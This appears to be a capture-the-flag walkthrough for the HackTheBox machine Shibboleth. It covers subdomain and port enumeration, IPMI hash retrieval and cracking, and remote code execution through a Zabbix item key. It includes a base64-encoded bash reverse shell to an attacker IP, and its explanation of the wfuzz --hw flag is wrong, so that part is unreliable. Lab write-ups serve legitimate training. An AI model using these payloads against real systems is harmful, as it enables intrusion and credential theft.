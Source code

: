 ```yaml
---
description: https://app.hackthebox.com/machines/410
---
```


# 👁️ Shibboleth

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

After a quick nmap, we only find port 80 open, after a better look:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

looking at the webserver:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We see some bootstrap, maybe this box has a CVE related exploit ->

we also are able to pull some possible usernames:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

I also find at the end of the page some possible backend technologies that could be our entry point&#x20;

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
wfuzz -u http://shibboleth.htb -H "Host: FUZZ.shibboleth.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26

```

in a previous scan, we noted that all pages that returned a 302 had 26 words so the `--hw` flag is used to specify the header word to match in the response, in this case, it is set to `26`, which means the attack will stop when the response header contains the word `26`

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

there is a zabbix subdomain, so it's probably the way to go, we need to add those in the etc/hosts file

a good thing to do after that is to launch a feroxbuster:

```
feroxbuster -u http://shibboleth.htb -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

`feroxbuster`, which is a tool for web application enumeration. The command is performing a directory bruteforce attack on the target URL `http://shibboleth.htb` with the wordlist `/usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt`. The `-w` flag is used to specify the wordlist file

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

nothing very interesting

The subdomains we found earlier all redirect to this page:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

tried default creds but it did not work:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

let's try to find other ways of going for the moment:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption><p>bare metal bmc automation exploit</p></figcaption></figure>

interesting, zabbix was maybe a rabbit hole

we can see that default port is 623, let's check:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

We have to be extremly careful because when we type in this command:

```
nmap -sCV -p 623 10.129.30.233
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

but if we type in this command

```
nmap -sU -p 623 -sCV shibboleth.htb
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

the `-sU` flag is used to specify the scan type as a UDP scan.

The target may be running a service on port `623` using the UDP protocol, but not using the TCP protocol.

The target may have a firewall configured to block incoming TCP connections on port `623`, but not UDP connections.

Let's follow the hacktricks methods to enumerate:

**identify** the **version** using:

```
#On msfconsole
use auxiliary/scanner/ipmi/ipmi_version
#or
nmap -sU --script ipmi-version -p 623 IP_Target
```

the nmap made this output:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

and the msfconsole:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

I followed the **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval** path and tried out this exploit:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

I just had to set rhosts and it retrieved this:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption><p>Script kiddie stuff...</p></figcaption></figure>

now let's find the type of hash:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

So the hashcat command would look like:

```
hashcat -m 7300 adminhash.txt /usr/share/wordlists/rockyou.txt --user
```

using the `--user` flag because the hash starts with the username

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

We arrive on this dashboard:&#x20;

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

after some enumeration, we find this:&#x20;

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Top right of the screen there is a create item button, let's see:

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

put whatever for the name and type `system.run[id]` for the key

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Then click the test button and the get value, it will output the `id` command so we got a RCE

So we can try a reverse shell that we double encode to bypass any errors or special character problems:

```
echo "bash -i >& /dev/tcp/10.10.14.94/9898 0>&1 " | base64
```

Let's try only base64 for now:

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85ODk4IDA+JjEgCg</p></figcaption></figure>

It did not work, the fact that we have some + in the command bothers me so if we add some double spaces in between each one of the spaces:

```
echo "bash  -i  >&  /dev/tcp/10.10.14.94/9898  0>&1  " | base64
```

so in the key parameter:

```
system.run[echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45NC85ODk4ICAwPiYxICAK | base64 | bash]
```

the final version of the payload was with port 443 so:

```
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDMgMD4mMSAgCg
```

and the RCE parameter was:

```
system.run[echo  YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDMgMD4mMSAgCg | base64 -d | bash]
```

set up a listener, click on test then get value:

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

we get some type of timeout&#x20;
